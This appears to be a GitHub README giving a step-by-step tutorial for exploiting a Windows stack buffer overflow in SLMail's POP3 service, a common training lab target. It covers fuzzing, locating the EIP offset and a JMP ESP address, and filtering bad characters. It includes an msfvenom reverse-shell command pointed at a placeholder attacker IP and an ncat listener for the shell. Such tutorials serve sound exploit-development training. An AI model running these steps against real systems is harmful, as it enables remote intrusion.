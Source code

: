 # ExpDev

-------------------------------------------------------------------------------------------------------------------------------
Buffer Overflow
-------------------------------------------------------------------------------------------------------------------------------
* Identify the vuln port (netstat -noa on target // nmap the target).
* Attach the procces to Immunity debugger and "Play" it on the target.
* Edit Fuzzer.py (IP address, port and what it sends in the socket - Ex. sLmail_pop3_pass_fuzzer.py in repo).
* Fuzz the target.
* Write a POC that replicates the crash (Ex. slmail_pop3_replicated_crash.py in repo).
* Locate those 4 A's that overwrite the EIP register.
* Send a unique string in order to identify the EIP offset. The size of this string is equal to the amount of bytes that crash the service. Use pattern_create in kali (Ex. pattern_create.rb -l 2700 --> place the output in buffer variable. See  	slmail_pop3_pattern_create.py in repo).
* Use pattern_offset.rb to discover the offset of these specific 4 bytes in the unique byte string and edit buffer variable (Ex. pattern_offset.rb -l 2700 -q 39694438. See slmail_pop3_pattern_offset.py
in repo).
* Locate space for the shellcode - a standart reverse shell payload requires about 350-400 bytes of space. Locate a convenient location to place the shellcode using the crash in Immunity debugger (Ex. C's in slmail crash are 90 bytes. You can increase the buffer length in order to make the shellcode fit. Ex. Increased buffer in slmail from 2700 to 3500. See slmail_pop3_locate_space.py in repo).
* Check for bad characters - an easy way to do this is to send all possible chars, from 0x00 to 0xff, as part of the buffer variable. See how these chars are dealt with by the app in memory dump of ESP register (Follow in dump - 01 02 03 etc..), after the crash (Ex. 0x00 - null byte is always bad. See slmail_pop3_bad_chars.py).
* Run the badchars check again and again till it doesnt trancate the values in memory (delete the relevnt chars before running the check in buffer, of course).
* Find a return address - using Mona.py in the Immunity debugger you should look for module that is not protected by DEP/ASLR and has a memory range that does not cotain bad characters.
Run "!mona modules" in Immunity to find one.
Run nasm_shell.rb in kali in order to find an opcode that is equivilent to JMP ESP command.
Search for this opcode in all sections of the .dll file that found in modules by this command in Immunity:
"!mona find -s "<OPCODE_IN_HEXA>" (Ex.\xff\xe4) -m <.DLL_FILE> (Ex. slmfc.dll)".
Choose one that doesnt contain bad chars (double check that inside the debugger - Ex. address like 0x5f4a358f).
* Edit the exploit and add this address instead of EIP (B's) place (See slmail_pop3_return_address.py in repo)
* Place a breakpoint in this address and check it actually reaches it.
* Generate a shellcode using MSFVENOM (msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKERS_IP> LPORT=<ATTACKERS_PORT> EXITFUNC=thread -f c -a x86 --platform windows -e x86/shikata_ga_nai -b "<BAD_CHARS>" (ex. "\x00\x0a\x0d")).
* Place this shellcode in the exploit POC and make sure to add NOP as padding for the decoder (See slmail_pop3_shellcode.py in repo). 
* Start a listener on attackers machine and get a shell (ncat -lvnp <LISTENING_PORT>).
-------------------------------------------------------------------------------------------------------------------------------
